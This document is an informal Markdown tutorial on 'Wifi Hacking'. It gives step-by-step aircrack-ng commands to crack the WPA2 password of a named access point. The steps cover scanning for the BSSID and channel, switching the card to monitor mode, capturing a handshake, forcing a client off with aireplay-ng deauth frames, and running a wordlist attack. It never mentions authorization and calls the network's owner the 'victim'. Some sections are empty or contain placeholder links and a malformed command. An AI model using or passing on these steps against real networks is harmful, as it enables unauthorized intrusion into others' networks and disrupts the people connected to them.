


***Before Doing This You should checkout /Basics%wireless***

# **Wifi Hacking**
1. [Using Wifite](using-wifite)
2. [Using Aircrack-ng](using-Aircrack-ng)


### **Using wifite**(easyest)

### ***Requirements***
 - [`linux`]()
 - [`wifite`]()

### **Steps**

```
wifite

```

### **POC**


### **Using Aircrack-ng**


#### Steps With Example
***In this Example i am going to crack the password of a wifi Access point with the name "318 2.4GHz***

#### Tools Used

```
aircrack-ng ip iw 

```


#### Steps

1. **Get the `bssid` of the target : there are multiple methods to obtain bssid and channel** 

##### **Method 1 Using iwlist**

- Open a terminal and type the following command
*You can use the following commands to obtain the bssid*
```
iwlist wlan0 scan
```
*replace the wlan0 with the wireless interface name of the one you have it maybe wlan1 if you are using a external adapter that support packet injection*

<details>

<summary> Find the interface Name ? </summary>

1. Open your terminal 
2. type `ifconfig` 
    or if you dont have ifconfig use `ip a`

</details>


*you can see mine is wlan0*



</details>



 You can see some usefull informations like
`bssid` `essid` `channel` etc

To Crack the password we only need `channel` , `bssid` and that is 

bssid = `AE:09:74:80:CC:3E`
channe = `1`

##### **Method 2 using airodump-ng**

1. Open a terminal and type `sudo airodump-ng wlan0`

```
sudo airodump-ng wlan0
```

after running the the command you will get the following output

```
BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

AE:09:74:80:CC:3E  -59       91        0    0   1  180   WPA2 CCMP   PSK  318 2.4GHz  

```


*again replace the wlan0 with your wifi interface name*


We can see see that we have obtained the follwing information that we whanted

bssid   = `AE:09:74:80:CC:3E`
channel = `1`

<details>
<summary>Warning: </summary>
***You should always remember we are attacking the network named `318 2.4GHz` and that name is its `essid`

```

BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

AE:09:74:80:CC:3E  -59       91        0    0   1  180   WPA2 CCMP   PSK  318 2.4GHz  

```

***the `essid` is shown at the end make sure it matches the victim's wifi name***
</details>


2. **Change You wifi card's mode from managed to monitor**

- Now stop the airodum-ng's proccess by pressing `CTRL+C`(Keyboard interrupt)
- type 

```
sudo airmon-ng check kill
sudo airmon-ng start wlan0
```

<details>
<summary>Explenation</summary>

</details>


3. **Make New directory to store `.cap` file**

for example

```
mkdir 318_capfiles
```
*you can also store the files in an existing directory but that will make a mess*


4. **Again run the airodump-ng to listen to that target** 

- type the following in you terminal

```
sudo airodump-ng -c 1--bssid AE:09:74:80:CC:3E -w /home/aruncs/Desktop/318_capfiles wlan0
```

***Change the directry name to you need to store the .cap file***


- after typing the command you can see a similar output like in following


*you will notice that the output is similar to that of the previous on whe we ran `sudo airodump-ng wlan0`*


5. In this stage we have to capture a hand shake
*In order to capture that some one should be alredy connected to that network*

- we waite for some one to connect
- if someone is alredy connected the we can obtain the following thing


We can see that the above scree shot contains a new set of details and one of them is the `station`

station = `2C:57:31:4F:DE:E6`


6. Use aireplay-ng to send deauth requests

- open up a new terminal and type the following

```

sudo aireplay-ng -0 10 -a AE:09:74:80:CC:3E -c 2C:57:31:4F:DE:E6 wlan0

```


- after running the aireplay-ng we will be able to capture a handshake 


7. Use the aircrack-ng to crack the captured file

- you should need a wordlist to do this step which can be obtained from [here](abc.com)


- stop the airodump-ng 


- type the following in your terminal 

```

sudo aircrack-ng -a2 -b AE:09:74:80:CC:3E -w /home/aruncs/Desktop/wordlist.txt /home/aruncs/Desktop/318_capfiles/*.cap 

```

- whoalah the password is cracked


